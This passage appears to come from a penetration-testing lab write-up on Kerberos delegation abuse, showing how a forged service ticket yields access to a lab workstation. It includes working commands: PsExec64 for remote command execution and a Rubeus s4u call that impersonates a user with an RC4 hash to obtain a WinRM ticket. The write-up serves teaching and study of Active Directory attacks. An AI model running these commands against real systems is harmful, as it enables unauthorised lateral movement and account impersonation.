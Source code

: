 We now have read access on the target host, as this ticket is used for authentication.

![](../assets/img/relaydelegation/2019-04-14-16-25-22.png)

*Note that for getting command execution on the target through psexec or wmi, we need local admin on the host we are on. Without local admin we will not be able to perform psexec, wmiexec, etc. That's why it's a good idea to do this from your attacking host.*

### Command execution

We can perform psexec locally from Windows since it works with `CIFS` tickets

`.\PsExec64.exe \\ws02.lab.local cmd`

![](../assets/img/relaydelegation/2019-04-14-16-25-51.png)

### WinRM

Another possible way of remote code execution with a service ticket is the native WinRM. We can do this with Rubeus similarly to above before, but this time request another ticket with an additional service specified. We are going to specify that we want a `http` ticket, which is required for WinRM.

    .\Rubeus.exe s4u /user:LUJCDPUQ$ /impersonateuser:lkys /msdsspn:"cifs/ws02.lab.local" /ptt /rc4:3116C16787230147050F6835AFBF5EDF /altservice:http
